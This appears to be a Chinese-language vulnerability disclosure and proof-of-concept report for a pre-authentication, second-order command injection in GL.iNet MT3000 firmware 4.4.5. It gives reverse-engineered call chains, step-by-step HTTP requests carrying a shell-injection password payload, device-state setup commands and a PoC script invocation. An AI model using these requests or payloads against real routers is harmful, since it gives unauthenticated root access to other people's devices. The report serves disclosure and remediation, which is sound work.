# GL.iNet MT3000 4.4.5 `nas-web.add_user(password) -> add_share` Confirmed Second-Order Pre-Auth RCE (Blind + Fresh Root File Write)

## 1. 摘要

在 GL.iNet MT3000 live `4.4.5` 固件上，`/cgi-bin/glc` 的 `nas-web` 对象可在**未认证**状态下访问。  
其中 `nas-web.add_user` 可先把攻击者提供的恶意 `password` 持久化写入 `nas_user` 数据表；随后攻击者再通过同样 **pre-auth** 的 `nas-web.add_share(proto=samba, users=[...])`，即可在 Samba 用户同步路径中把这份恶意 password 从数据库取回，并送入 root 权限 shell sink：

```c
printf "%s\n%s\n" | smbpasswd -a -s %s
```

这使得 `add_share` 不再只是“静态同族路径”，而是截至 **2026-05-05** 已经在 live `192.168.8.1` 上 end-to-end 确认的第二个触发器：

> **未认证 / 存储型 / second-order / root 级命令执行链**

---

## 2. 影响范围与组件

### 2.1 已确认环境

- 设备：GL.iNet MT3000
- 固件：`4.4.5`
- live 目标：`http://192.168.8.1`

### 2.2 相关模块

- RPC wrapper：`/usr/lib/oui-httpd/rpc/nas-web.so`
- NAS 后端：`/usr/bin/gl_nas_sys`

### 2.3 入口

```http
POST /cgi-bin/glc
Content-Type: application/json
```

请求体格式：

```json
{
  "object": "nas-web",
  "method": "<method>",
  "args": { ... }
}
```

本专项链涉及的方法：

- `get_user_list`
- `remove_user`（可选，用于腾槽）
- `add_user`
- `add_share`

---

## 3. 根因与调用链

- **nas-web.so** 第一阶段 add_user



ip 追到最后是本地回环地址



port是6000端口



默认的 gl_nas_sys 监听的是6000端口



- **gl_nas_sys** 分发函数



- **匹配分发表，进入真正的后端处理 add_user 操作**



- **在 add user 之前进行用户名密码合法性校验**



- **真正的 add user 操作函数**



- **add user 落地操作**



- **nas-web.so** 第二阶段 add_share



- **匹配分发表，进入真正的后端处理 add_share 操作**



- **处理 add_share 的 handler 函数**



- **add_share samba-user sync entry**



- **Per-user second-stage samba sync**



- **sink**



### 3.1 第一阶段：恶意 password 入库

攻击者通过：

```json
{"object":"nas-web","method":"add_user","args":{"name":"<fresh>","password":"<payload>"}}
```

把恶意 `password` 写入 `nas_user` 表。

#### 3.1.1 第一阶段的逆向工程证据

在 `gl_nas_sys` 中，`add_user` 对应的后端入库路径可直接由逆向确认：

- `add_nas_user_checked @ 0x42F640`
- `add_nas_user_record @ 0x42F470`

其中：

- `add_nas_user_checked` 会做最基本的空指针 / 状态检查，然后直接转入 `add_nas_user_record(username, password, user_type)`。
- `add_nas_user_record` 中有明确日志：

```c
"add user, name = %s, pwd = %s, type = %d\n"
```

- 同一模块中还可见与 `nas_user` 表直接相关的 SQL / schema 字符串：

```c
CREATE TABLE %s (name TEXT,pwd TEXT);
insert into %s values('%s','%s')
select pwd from %s where name='%s'
```

这说明第一阶段并不是“即时注入”，而是把攻击者可控的 `password` 当作数据写入 `file_share.db` 中的 `nas_user` 表，供后续 share / samba 同步路径再次取回。

### 3.2 第二阶段：`add_share` 重新取回 password

后续调用：

- `nas-web.add_share`

会进入 share / samba 用户同步流程：

- `sub_449750`
- `sub_445620`
- `sub_42E410(a1[4], ...)`：从 `nas_user` 表取回 password
- `sub_453F50(a1[4])`：向 `/etc/passwd` 增加用户记录
- `sub_42D340(a1[4], pwd)`：构造 `smbpasswd` shell 命令

危险格式串同样是：

```c
printf "%s\n%s\n" | smbpasswd -a -s %s
```

#### 3.2.1 `nas-web.so` wrapper 层逆向证据

当前链的第一层并不在 `gl_nas_sys`，而是在 CGI RPC wrapper `nas-web.so` 中。逆向结果表明：

- `add_user @ 0x5404`
- `add_share @ 0x6554`
- `curl_post_manage_post @ 0x42BC`
- `curl_post_manage_post_do @ 0x4014`

其中：

- `add_user` 会先 `json_dumps(a1, 256)`，随后调用：

```c
curl_post_manage_post(..., "/NAS_API_ADD_USER", dumped_json)
```

- `add_share` 的逻辑与之同型，只是把路径换成：

```c
curl_post_manage_post(..., "/NAS_API_ADD_SHARE", dumped_json)
```

- `curl_post_manage_post_do` 会最终构造：

```c
http://127.0.0.1:%d/%s
https://127.0.0.1:%d/%s
```

这说明 `nas-web.so` 本身只是 pre-auth JSON wrapper；它把外部 `glc` 请求原样转发给本地 loopback 上的 `gl_nas_sys`，而不是在 wrapper 层直接完成用户同步或命令执行。

##### 3.2.1.1 `gl_nas_sys` dispatcher case 映射

`gl_nas_sys` 本地 HTTP 命令分发主入口位于：

- `NAS_API_dispatcher @ 0x42BD50`

该函数先从本地 HTTP 请求路径中解析命令，再把内部 `cmd_id` 写入 `request_ctx + 0xFC`，随后在：

- `0x440190`

进入一个大的 jump table 分发。与本链直接相关的 case 已可在 IDA 中单独定位为：

- `0x4404EC -> handle_add_user_api_password @ 0x43D920`
- `0x4402E8 -> handle_add_user_api_pwd @ 0x43A4E0`
- `0x440540 -> handle_add_share_api_wrapper @ 0x43E150`

其中：

1. `0x4404EC` 对应的 `handle_add_user_api_password()` 解析 JSON 键：

```c
"name"
"password"
```

这正是 `nas-web.so:add_user` 转发 `/NAS_API_ADD_USER` 后实际命中的分支。

2. `0x4402E8` 对应的 `handle_add_user_api_pwd()` 是同族兼容路径，只是把密码键名换成：

```c
"pwd"
```

3. `/NAS_API_ADD_SHARE` 并不是直接从 dispatcher 跳到 `handle_add_share_request()`，而是先进入：

```c
0x440540 -> handle_add_share_api_wrapper @ 0x43E150
```

该 wrapper 会：

- 解析请求 body
- 检查 JSON 中是否存在 `"file"` 键
- 调用 `sub_443CA0()` 将整份 share JSON 反序列化进 `share_ctx`
- 最终在：

```c
0x43E2B0 -> handle_add_share_request(share_ctx)
```

把解析后的 `share_ctx` 交给真正的 share 后端逻辑处理。

#### 3.2.2 `gl_nas_sys` 后端逆向证据

`add_share` 进入后端后的关键 second-order 路径如下：

- `handle_add_share_request @ 0x449750`
- `add_share_sync_samba_users @ 0x445AB0`
- `sync_single_samba_user_for_share @ 0x445620`
- `db_get_nas_user_password_thunk @ 0x42E410`
- `db_get_nas_user_password @ 0x422B30`
- `append_root_user_to_passwd @ 0x453F50`
- `set_samba_password_via_shell @ 0x42D340`
- `exec_cmd_with_retry @ 0x4171B0`

对应关系可以直接从反编译结果中读出：

1. `handle_add_share_request` 在 `share_ctx[52] == 1`，也就是 `samba enable = 1` 时，调用 `add_share_sync_samba_users()`。
2. `add_share_sync_samba_users` 会遍历新 share 的 `users[]` 数组，并对每个用户调用 `sync_single_samba_user_for_share()`；日志字符串为：

```c
"add samba user[%d] name = %s, read only = %d\n"
```

3. `sync_single_samba_user_for_share` 内部明确按顺序执行：

```c
db_get_nas_user_password_thunk(share_user_ctx[4], decoded_password, 32)
append_root_user_to_passwd(share_user_ctx[4])
set_samba_password_via_shell(share_user_ctx[4], decoded_password)
```

4. `db_get_nas_user_password` 会打开：

```c
/etc/config/gl_nas/file_share.db
```

并在 `nas_user` 表中按用户名查出 `pwd`，再经过 `sub_42CD60()` 解码；日志字符串为：

```c
"get user = %s, pwd = %s\n"
```

5. `append_root_user_to_passwd` 中的危险格式串为：

```c
echo "%s:x:0:0:%s:/tmp:/bin/ash" >> /etc/passwd
```

6. `set_samba_password_via_shell` 中的危险格式串为：

```c
printf "%s\n%s\n" | smbpasswd -a -s %s
```

7. 这两个命令最终都会经过 `exec_cmd_with_retry()` 执行；该函数会打印：

```c
"exec cmd = %s\n"
```

因此，第二阶段并不是“猜测存在 `smbpasswd` 调用”，而是已经能在后端里完整闭合成：

> **取回持久化 password -> 组装 shell 命令 -> root 权限执行**

#### 3.2.3 第二阶段的地址级调用链闭环

为了避免把 `add_share` 误解为“只是另一个同族接口”，这里把第二阶段从 dispatcher 到 sink 的实际地址链再压实一次：

1. `NAS_API_dispatcher @ 0x42BD50`

```c
0x440540 -> handle_add_share_api_wrapper @ 0x43E150
```

2. `handle_add_share_api_wrapper @ 0x43E150`

该层负责把 JSON body 解析成 `share_ctx`。当解析完成且 share 路径可用时，在：

```c
0x43E2B0 -> handle_add_share_request(share_ctx)
```

进入核心 share 处理逻辑。

3. `handle_add_share_request @ 0x449750`

该函数会先打印：

```c
"samba enable = %d\n"
"webdav enable = %d\n"
"dlna enable = %d\n"
"ftp enable = %d\n"
"nfs enable = %d\n"
```

并在：

```c
if (share_ctx[52] == 1)
```

也就是 `samba enable = 1` 时，于：

```c
0x4499C8 -> add_share_sync_samba_users((__int64)share_ctx)
```

进入 Samba 用户同步分支。

4. `add_share_sync_samba_users @ 0x445AB0`

该函数明确遍历新建 share 的 `users[]` 数组，并逐个打印：

```c
"add samba user[%d] name = %s, read only = %d\n"
```

随后调用：

```c
sync_single_samba_user_for_share((const char **)share_user_ctx)
```

因此，是否能命中第二阶段 sink，不取决于 `add_share` 名字本身，而取决于：

- 该 share 是否启用了 Samba
- `users[]` 是否非空

5. `sync_single_samba_user_for_share @ 0x445620`

这是第二阶段最关键的 per-user 同步函数。其内部按顺序执行：

```c
j_db_nas_user_exists(share_user_ctx[4])
db_get_nas_user_password_thunk(share_user_ctx[4], decoded_password, 32)
append_root_user_to_passwd(share_user_ctx[4])
set_samba_password_via_shell(share_user_ctx[4], decoded_password)
```

也就是说，这一步明确把当前 share user 对应的 NAS 账户密码从数据库里重新取回，然后送入 shell sink。

6. `db_get_nas_user_password @ 0x422B30`

这个函数会打开：

```c
/etc/config/gl_nas/file_share.db
```

然后：

- 确认 `username` 在 `nas_user` 中存在
- 调用 `sub_421CB0(username, db_ctx, encoded_password, 128)` 取出编码态密码
- 调用 `sub_42CD60(encoded_password, strlen(encoded_password), decoded_password_out)` 解码回明文

它的日志字符串直接证明明文密码被恢复到了栈上的输出缓冲区：

```c
"get user = %s, pwd = %s\n"
```

7. `append_root_user_to_passwd @ 0x453F50`

在真正设置 Samba 密码前，后端还会构造并执行：

```c
echo "%s:x:0:0:%s:/tmp:/bin/ash" >> /etc/passwd
```

这一步说明该同步逻辑本身就在 root 权限上下文中运行，并且会修改系统账号文件。

8. `set_samba_password_via_shell @ 0x42D340`

该函数的危险格式串为：

```c
printf "%s\n%s\n" | smbpasswd -a -s %s
```

其参数顺序为：

- `%s` -> `password`
- `%s` -> `password`
- `%s` -> `username`

也就是把刚从 `file_share.db` 里取回并解码出的密码，直接插入 shell 命令字符串。

9. `exec_cmd_with_retry @ 0x4171B0`

最终命令执行经过：

```c
sub_417160(cmd)
```

并在每次执行前打印：

```c
"exec cmd = %s\n"
```

从逆向证据角度看，这已经足够把第二阶段闭环成：

> `/NAS_API_ADD_SHARE`
> -> `handle_add_share_api_wrapper`
> -> `handle_add_share_request`
> -> `add_share_sync_samba_users`
> -> `sync_single_samba_user_for_share`
> -> `db_get_nas_user_password`
> -> `set_samba_password_via_shell`
> -> `exec_cmd_with_retry`

因此，第一阶段 `add_user` 写入数据库的恶意 password，第二阶段 `add_share` 会在完全不同的业务路径中被重新取回，并以 root 权限送入 shell 命令字符串。这正是该漏洞链被认定为 second-order pre-auth RCE 的核心依据。

## 4. `add_share` 触发器的真实条件

### 4.1 需要先满足的运行时前置条件

本轮对 `add_share` 的重新 live 验证之前，曾遇到：

- `disk_number = 0`
- `get_file_list('/disk1_part1')` 为空
- `add_share` 只报错或仅表现为服务重启

恢复后前置条件为：

- `/tmp/gl_nas/disk.json` 中 `disk_number = 1`
- `/tmp/mountd/disk1_part1/` 下存在目标目录，如：
  - `shareme`
  - `subdir2`
  - `cdw52`
  - `probeA`

也就是说，`add_share` 的命中并不是“只要调用就行”，而是要求 NAS share 运行态处于可用状态。

### 4.2 为什么当前稳定条件是 `proto=samba` 且 `users=[...]`

这部分也可以由 `gl_nas_sys` 逆向直接解释：

- `handle_add_share_request @ 0x449750` 中，只有在 `share_ctx[52] == 1` 时才会进入 `add_share_sync_samba_users()`，因此 **`proto=samba` 是命中 `smbpasswd` sink 的必要条件**。
- `add_share_sync_samba_users @ 0x445AB0` 明确遍历的是新 share 的 `users[]` 数组，并逐个调用 `sync_single_samba_user_for_share()`。
- 相比之下，`webdav` 相关路径会落入 `sub_448A40` / `sub_423C40` 一类独立分支，日志字符串为：

```c
"add webdav user[%d] name = %s, read only = %d\n"
```

当前未见它们进入 `smbpasswd` shell sink。

同样，`set_share` 对应的是另一条 sibling 路径：

- `set_share_sync_samba_users @ 0x445840`

其日志字符串为：

```c
"=== === ===> web set file share, samba user add/modify\n"
"=== === set add samba user[%d] name = %s, read only = %d\n"
"=== === ==== set modify samba user[%d] name = %s, read only = %d\n"
```

这说明 `set_share` 与 `add_share` 虽然是两个不同触发器，但它们都会落入同一类 “share users[] -> samba user sync -> 取回 pwd -> shell sink” 设计缺陷。
---

## 5. Burp Suite 验证与手工复现

### 5.1 burp suit验证post

每次测试前都重新“临时恢复”磁盘态

  这是最简单也最现实的。

  流程就是：
  先将设备重启，然后立马进行状态恢复

  1. 把 disk.json 改回 disk_number=1
  2. 保证 /disk1_part1 能指到 /tmp/mountd/disk1_part1
  3. 确认 get_file_list('/disk1_part1') 能看到目录
  4. 再开始打 Burp / PoC，记得要使用fresh_add_user

```
ssh -i /home/coconut/router_digout/cve_report/middle_file/ssh_tmp/mt3000_add_user_probe_ed25519 root@192.168.8.1
```
  ———

#### 5.1.1 然后执行下面这些命令

1. 确保 mountd 根目录存在
```
mkdir -p /tmp/mountd/disk1_part1
```
2. 把当前保留的目录补成 NAS 可见目录池
```
for d in shareme subdir2 cdw52; do
    mkdir -p /tmp/mountd/disk1_part1/$d
done
```
3. 恢复 /disk1_part1 符号链接
```
ln -sfn /tmp/mountd/disk1_part1 /disk1_part1
```
4. 写回 disk.json，把当前磁盘状态伪装成“有 1 块盘”
```
cat > /tmp/gl_nas/disk.json <<'EOF'
{
  "disk_number": 1,
  "disk": [
    {
      "uid": "fakeuid1",
      "sd_card": 0,
      "part": [
        {
          "uid": "fakeuid1",
          "disk_name": "disk1_part1",
          "dev_name": "sda1",
          "mount_dir": "/disk1_part1",
          "fs_type": "ext4",
          "free_size": 102400,
          "total_len": 204800
        }
      ]
    }
  ]
}
EOF
```
---

### 5.2 Burp 请求顺序

---

#### 5.2.1 Step 0：启动 NAS 后端

这个不是必须每次都打，但为了稳定，建议先打。

##### Request
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{"object":"nas-web","method":"start","args":{}}
```
##### 期望响应
```json
0 {}
```
---
#### 5.2.2 Step 0：确认当前的磁盘状态正常

```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close
Content-Length: 61

  {"object":"nas-web","method":"get_disk_list","args":{}}
```


#### 5.2.3 Step 1：确认当前目录池

##### Request
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{"object":"nas-web","method":"get_file_list","args":{"path":"/disk1_part1"}}
```
##### 你应该重点看

返回里是否包含：
```json
"/disk1_part1/poc_2026_5_21"
```


#### 5.2.4 Step 2：确认当前 share 列表

##### Request
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{"object":"nas-web","method":"get_share_list","args":{}}
```
##### 你应该重点看

确认返回的 share 里：

- 没有 /disk1_part1/poc_2026_5_21

这一步就是证明它是个 fresh 目录目标。


---

#### 5.2.5 Step 3：确认当前用户列表为空/干净

##### Request
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{"object":"nas-web","method":"get_user_list","args":{}}
```
##### 你应该重点看

最好返回：
```json
{"list":[]}
```

如果不是空，也没关系，只要后面你新建的不冲突就行。

---

### 5.3 真正的 second-order 利用步骤

---

#### 5.3.1 Step 4：add_user 把恶意 password 入库


##### Request
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{
  "object":"nas-web",
  "method":"add_user",
  "args":{
    "name":"auproof20260521",
    "password":"A$(touch$IFS$@fresh_bp_touch_2026_5_21)"
  }
}
```
##### 期望响应
```json
0 {"result_code":0}
```


---

#### 5.3.2 Step 5：确认用户已经入库

##### Request
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{"object":"nas-web","method":"get_user_list","args":{}}
```
##### 你应该重点看

列表里应该出现：
```json
{
  "name":"auproof20260521",
  "password":"A$(touch$IFS$@fresh_bp_touch_2026_5_21)"
}
```

这一步很重要，因为它证明：

- 不是当场 RCE
- 而是先把恶意 password 持久化了

#### 5.3.3 Step 6：add_share 触发 second-order 消费

这是“踩 payload”的关键一步。

##### Request
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{
  "object":"nas-web",
  "method":"add_share",
  "args":{
    "file":"/disk1_part1/poc_2026_5_21",
    "proto":"samba",
    "share_name":"poc_2026_5_21",
    "public":0,
    "users":[
      {
        "name":"auproof20260521",
        "readonly":1
      }
    ]
  }
}
```
##### 期望响应

大概率像这样：
```json
0 {"result_code":0,"share_id":"<某个新share_id>"}
```




##### 这一步的关键解释

这里不是随便共享目录，而是：

- add_share 进入 samba 用户同步逻辑
- 取回 auproof1 的 password
- 然后把它喂给 smbpasswd shell sink
- touch 在这里才真正执行

---

### 5.4 验证 touch 文件是否真的落地

你这次要求的是 touch 文件形式验证，所以最终证据就在根目录 marker。

#### 5.4.1 方式 A：SSH 验证

你已经有 key，可以直接：
```cmd
ssh -i /home/coconut/router_digout/cve_report/middle_file/ssh_tmp/mt3000_add_user_probe_ed25519 root@192.168.8.1 'ls -l /fresh_bp_touch_1779297030'
```
##### 成功时应看到类似
```
-rw-r--r--    1 root     root             0 ... /fresh_bp_touch_1779297030
```


---

### 5.5 删除poc测试新增的用户和share文件夹
#### 5.5.1 Step 1：先查 share_id

把这个之前的 share_id 记下来。
```
a5cff49dcd765a838e0134e4af63daba
```
#### 5.5.2 Step 2：删除这次新建的 share

##### Request 2：remove_share

我建议你先用最全参数版本，和前端传对象的风格更接近。
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close
Content-Length: 280

{
  "object":"nas-web",
  "method":"remove_share",
  "args":{
    "file":"/disk1_part1/poc_2026_5_21",
    "proto":"samba",
    "share_name":"poc_2026_5_21",
    "public":0,
    "users":[],
    "share_id":"a5cff49dcd765a838e0134e4af63daba"
  }
}
```


##### 期望响应

通常希望看到类似：
```json
0 {"result_code":0}
```
或者至少没有明显 err_msg。

#### 5.5.3 Step 3：确认 share 已经删掉

##### Request 3：再次 get_share_list()
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{"object":"nas-web","method":"get_share_list","args":{}}
```


##### 你要确认什么

响应里不再出现：
```json
"n": "/disk1_part1/poc_2026_5_21"
```
也不再出现对应：
```json
"share_id": "<SHARE_ID>"
```
这样就说明 share 侧副作用已经清掉。


#### 5.5.4 Step 4：删除这次新建的用户

##### Request 4：remove_user
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{
  "object":"nas-web",
  "method":"remove_user",
  "args":{
    "name":"auproof20260521"
  }
}
```




##### 期望响应

一般类似：
```json
0 {"result_code":0}
```
#### 5.5.5 Step 5：确认用户已经删掉

##### Request 5：get_user_list()
```json
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
Connection: close

{"object":"nas-web","method":"get_user_list","args":{}}
```


##### 你要确认什么

返回里不再出现：
```json
"name":"auproof20260521"
```
这就说明 user 侧副作用也清掉了。

---


## 6. 手工复现补充说明

### 6.1 必要时先恢复 share 运行态

确认：

- `get_disk_list('/disk1_part1')` 可返回 `disk_number = 1`
- `/disk1_part1` 下确实存在用于 `add_share` 的目录，例如 `/disk1_part1/probeA`

### 6.2 必要时腾用户槽位

```http
POST /cgi-bin/glc
Content-Type: application/json

{"object":"nas-web","method":"remove_user","args":{"name":"mutzlm"}}
```


---

## 7. PoC

### 7.1 PoC 文件路径

```text
/home/coconut/router_digout/cve_report/glinet_mt3000_nas_web_add_user_set_share_second_order_preauth_blind_rce_poc_2026-04-30.py
```

### 7.2 fresh root file-write 直接运行

```bash
python3 /home/coconut/router_digout/cve_report/glinet_mt3000_nas_web_add_user_add_share_second_order_preauth_rce_poc_2026-05-05.py \
  --target 192.168.8.1 \
  --username auproof20260521 \
  --share-file /disk1_part1/poc_2026_5_21 \
  --marker-name fresh_bp_touch_2026_5_21
```

---

## 8. 失败模式与排查

### 8.1 `Error add share` / 只看到服务重启

优先排查：

- `disk_number` 是否为 `1`
- `--share-file` 指定目录是否真实存在
- 当前是否走的是 `proto=samba`
- 当前是否用的是 `users=[...]` 形态而不是 `all_users/readonly_users`

### 8.2 `0 {}`

说明 `gl_nas_sys` 或其依赖状态可能已经漂了，应先恢复后端再重打。

### 8.3 `result_code=14`

说明 NAS 用户槽位满，需要先删旧测试用户。

---

## 9. 修复建议

1. **给 `nas-web.add_user` / `add_share` 加认证**
2. **彻底移除 `smbpasswd` shell 拼接**
3. **不要把持久化 password 当作命令模板数据再次解释**
4. 对 `gl_nas_sys` 的 share / samba 同步逻辑做系统性 shell sink 审计

---

## 10. 最终结论

截至 **2026-05-05** 当前 live 证据，`nas-web.add_user(password) -> add_share` 这条线应明确写成：

> **GL.iNet MT3000 4.4.5 存在一条未认证 second-order pre-auth RCE：攻击者可先通过 `nas-web.add_user` 将恶意 password 持久化写入数据库，再通过 pre-auth `nas-web.add_share(proto=samba, users=[...])` 触发 Samba 用户同步，把该 password 送入 `smbpasswd` 的 root shell sink。**
